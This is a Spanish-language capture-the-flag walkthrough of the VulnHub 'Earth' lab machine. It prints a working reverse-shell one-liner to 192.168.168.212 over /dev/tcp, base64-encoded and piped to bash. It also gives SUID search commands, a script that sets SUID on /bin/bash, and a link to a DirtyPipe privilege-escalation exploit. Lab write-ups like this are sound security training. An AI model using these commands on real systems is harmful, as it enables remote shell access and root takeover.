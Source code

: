 # VULNHUB Earth

Escaneo habitual. Puertos abiertos 22, 80 y 443

El certificado nos devuelve dos dominios, DNS:earth.local, DNS:terratest.earth.local


Se hace FUZZING. Existe terratest.earth.local/robots.txt:

<pre>

Testing secure messaging system notes:
*Using XOR encryption as the algorithm, should be safe as used in RSA.
*Earth has confirmed they have received our sent messages.
*testdata.txt was used to test encryption.
*terra used as username for admin portal.
Todo:
*How do we send our monthly keys to Earth securely? Or should we change keys weekly?
*Need to test different key lengths to protect against bruteforce. How long should the key be?
*Need to improve the interface of the messaging interface and the admin panel, it's currently very basic.

</pre>

Existe testdata.txt 

<pre>
According to radiometric dating estimation and other evidence, Earth formed over 4.5 billion years ago. Within the first billion years of Earth's history, life appeared in the oceans and began to affect Earth's atmosphere and surface, leading to the proliferation of anaerobic and, later, aerobic organisms. Some geological evidence indicates that life may have arisen as early as 4.1 billion years ago.
</pre>

Decodificamos en https://gchq.github.io/CyberChef y la pass es: earthclimatechangebad4humans

Usamos terra:earthclimatechangebad4humans en /admin y tenemos ejecución remota de comandos vía Web.

Nos mandamos consola:

<pre>
echo 'bash -i >& /dev/tcp/192.168.168.212/443 0>&1' | base64 

echo 'YmFzaCAtaSA+JiAvZGV2L3RjcC8xOTIuMTY4LjE2OC4yMTIvNDQzIDA+JjEK' | base64 -d | bash

</pre>

Para buscar ficheros con permisos suid

<pre>

find / -perm -u=s -type f 2>/dev/null
find \-perm -4000 2>/dev/null


</pre>

Permisos de superusuario a la consola:

<pre>
#!/bin/bash

chmod u+s /bin/bash
</pre>
Al tener pkexec utilizamos:

https://github.com/Arinerron/CVE-2022-0847-DirtyPipe-Exploit

